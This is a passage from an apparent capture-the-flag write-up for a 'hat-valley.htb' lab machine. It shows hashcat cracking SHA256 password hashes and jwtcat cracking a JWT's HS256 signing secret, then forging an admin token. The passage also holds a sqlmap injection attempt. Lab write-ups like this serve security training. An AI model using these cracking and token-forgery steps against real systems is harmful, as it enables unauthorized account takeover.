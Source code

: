     they are SHA256 hashes, I try to do a bruteforce attack saving all 4 hashes in `hash.txt` file
    ```
    6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
    e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1
    b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436
    37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f
    ```

    `hashcat -m 1400 -a 0 hash.txt /usr/share/wordlists/rockyou.txt -O`

    I get: `e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1:chris123`

    so I log in as `christopher.jones : chris123` in the [`http://hat-valley.htb/hr`](http://hat-valley.htb/hr) page

- I'm logged in and finally I can create **Leave Requests** at [`http://hat-valley.htb/leave`](http://hat-valley.htb/leave)

    I notice that I cannot use the following characters: `#`, `{`,`}`, `*`, `$`, `"`, `(`, `)`

    therefore an SSTI attack is not feasible

    I try to see if there is an SQLI: `sqlmap -r request.txt --os='linux' --level=5 --risk=3`
    ```

    ```

- now that I think about it I have the `token` cookie and consequently I can get more information about the used JWT:
    ```
    eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjcwMjc0MTkxfQ.7vMDJi74kTnjzGNQcXgbrMNLcqQdxhKD10Umi49jczM
    ```

    decoding the base64 I can see the structure:
    ```
    {"alg":"HS256","typ":"JWT"}{"username":"christopher.jones","iat":1670274191}.ï02bï...<Æ5...ºÌ4·*AÜa(=tRh¸ö73
    ```

    [https://auth0.com/blog/brute-forcing-hs256-is-possible-the-importance-of-using-strong-keys-to-sign-jwts/](https://auth0.com/blog/brute-forcing-hs256-is-possible-the-importance-of-using-strong-keys-to-sign-jwts/)

    [https://github.com/brendan-rius/c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker) (does not support dictionary attack)

    [https://github.com/aress31/jwtcat](https://github.com/aress31/jwtcat) (supports dictionary attack)

    I then run: `python jwtcat.py wordlist -w /usr/share/wordlists/rockyou.txt eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjcwMjc0MTkxfQ.7vMDJi74kTnjzGNQcXgbrMNLcqQdxhKD10Umi49jczM`
    ```
    2022-12-12 21:20:51,843 kali __main__[10295] INFO Private key found: 123beany123
    2022-12-12 21:20:51,843 kali __main__[10295] INFO Finished in 251.86414098739624 sec
    ```

    now I can create an adhoc token for the user with admin permissions from the site [https://jwt.io](https://jwt.io)
    ```
    header = {"alg":"HS256","typ":"JWT"}
    payload = {"username":"bean.hill","iat":1670877138} #www.epochconverter.com
    signature key = 123beany123
    ```
